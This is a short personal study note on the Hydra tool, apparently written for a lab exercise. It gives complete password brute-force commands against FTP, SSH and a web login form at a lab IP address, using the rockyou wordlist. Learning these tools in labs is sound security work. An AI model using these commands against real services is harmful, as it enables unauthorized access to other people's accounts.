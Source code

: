 Password cracking with hydra
## ssh


Hydra Commands

The options we pass into Hydra depend on which service (protocol) we’re attacking. For example, if we wanted to brute force FTP with the username being user and a password list being passlist.txt, we’d use the following command:

`hydra -l user -P passlist.txt ftp://10.10.125.84`

For this deployed machine, here are the commands to use Hydra on SSH and a web form (POST method). SSH

`hydra -l <username> -P <full path to pass> 10.10.125.84 -t 4 ssh`

|Option|Description|
|---|---|
|`-l`|specifies the (SSH) username for login|
|`-P`|indicates a list of passwords|
|`-t`|sets the number of threads to spawn|

`hydra -l <username> -P <full path to pass> 10.10.125.84 -t 4 ssh`

## [](https://github.com/nxtbz/obsidian_notes/blob/babd6ef6cd34a446508db0212c2c13d5f6d94d3d/TOOLS/hydra.md#webform)webform

|Option|Description|
|---|---|
|`-l`|the username for (web form) login|
|`-P`|the password list to use|
|`http-post-form`|the type of the form is POST|
|`<path>`|the login page URL, for example, `login.php`|
|`<login_credentials>`|the username and password used to log in, for example, `username=^USER^&password=^PASS^`|
|`<invalid_response>`|part of the response when the login fails|
|`-V`|verbose output for every attempt|

`hydra -l <username> -P <wordlist> <IP> http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V`

`hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.125.84 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V`